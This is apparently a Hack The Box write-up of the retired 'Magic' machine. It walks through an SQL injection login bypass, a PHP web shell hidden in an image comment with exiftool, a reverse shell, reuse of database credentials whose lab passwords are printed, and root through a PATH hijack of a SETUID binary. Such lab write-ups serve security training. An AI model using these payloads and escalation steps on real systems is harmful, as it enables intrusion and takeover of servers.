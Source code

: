 # Magic

A / R: Retired
Difficulty: Medium
Done: Yes

title: “Hack The Box - Magic”

---

tags: [linux,medium,file-upload-vuln,sqli,mysql,path]

---

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled.png)

Initial is by doing a SQLI to bypass login. And File Upload Vulnerability, from there we can get a shell and find user creds in SQL database. And root is by path hijack attack.

Link: [https://www.hackthebox.eu/home/machines/profile/241](https://www.hackthebox.eu/home/machines/profile/241)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp    open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
56044/tcp closed unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/23%OT=22%CT=56044%CU=37951%PV=Y%DS=2%DC=T%G=Y%TM=5EA
OS:15A54%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A
OS:)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54
OS:DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88
OS:)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%D
OS:F=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=4
OS:0%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP Enumeration

The webpage looks like a Photo Gallery and There is a login option in the left corner of the page.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%201.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%201.png)

Let's Look at the login page. I tried some default credentials, didn't work. So next option is SQL Injection.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%202.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%202.png)

Captured the login request in burp. And send that to the intruder.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%203.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%203.png)

In payload tab added MySQL Authentication bypass from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass). And Start Attack.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%204.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%204.png)

We got some `302 Status`, they might help us login.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%205.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%205.png)

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%206.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%206.png)

Logged in Successfully. And there is only an Image Upload options so I tried to upload a normal image first.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%207.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%207.png)

Uploaded Successfully.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%208.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%208.png)

I can see the image in the index page.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%209.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%209.png)

I found the locations where these images are saving.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2010.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2010.png)

We can use Exiftool to inject payload into an image.

> exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' payload.jpg

```bash
root@w0lf:~/CTF/HTB/Boxes/Magic# exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' payload.jpg
    1 image files updated
root@w0lf:~/CTF/HTB/Boxes/Magic# mv payload.jpg payload.php.jpg
```

Now We can upload the payload. 

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2011.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2011.png)

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2012.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2012.png)

## Getting shell as www-data

Our Payload is working. Let's try to get a reverse shell now.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2013.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2013.png)

Started python server in my machine and upload a PHP Reverse shell.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2014.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2014.png)

I used `wget` to upload the PHP reverse shell to the box.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2015.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2015.png)

Now I can access `wolfpayload.php` in the same directory and started my netcat listener. And We got `www-data` shell.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2016.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2016.png)

## Getting user Theseus

While enumerating I found `db.php5` in `/var/www/Magic` directory. We found some credentials, so `su` to the user.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2017.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2017.png)

Before doing `su`  we need to get a proper shell first.

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

 When tried login I get  Authentication Failure.

```bash
$ su theseus
su theseus
Password: iamkingtheseus

su: Authentication failure
```

Since we have MySql Credentials better Dump all. And I got one more password now.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/1.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/1.png)

Finally logged in as user with `theseus : Th3s3usW4sK1ng`

```bash
$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ whoami
whoami
theseus
theseus@ubuntu:/var/www/Magic$
```

## Privilege Escalation

I uploaded my enumeration script and found a `SETUID` binary.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2018.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2018.png)

### What is sysinfo?

- sysinfo - return system information.

I did `strings` on `/bin/sysinfo` and it running some other tools too.

![Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2019.png](Magic%20de701d55b3dd4fd78e375e4eccc15334/Untitled%2019.png)

### What is lshw?

- lshw is used to generate the detailed information of the system’s hardware configuration

The path of `lshw` is not fully specified.

So we can create a file to give us shell and placed it in `/tmp` and name it as `lshw` and change the PATH to `/tmp`.

```bash
theseus@ubuntu:/tmp/test$ echo "reset; sh 1>&0 2>&0" > lshw
echo "reset; sh 1>&0 2>&0" > lshw
theseus@ubuntu:/tmp/test$ chmod 755 lshw
chmod 755 lshw
```

This command will make the PATH to search in `/tmp` first

```bash
theseus@ubuntu:/tmp/test$ export PATH=/tmp/test:$PATH
export PATH=/tmp/test:$PATH
```

Now by running `sysinfo` it will search for `lshw` to execute it and it asks the PATH where it locates and it will tell `lshw` is located in `/tmp/test/lshw`.

```bash
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
info.c	root.txt
#
```

We own the root!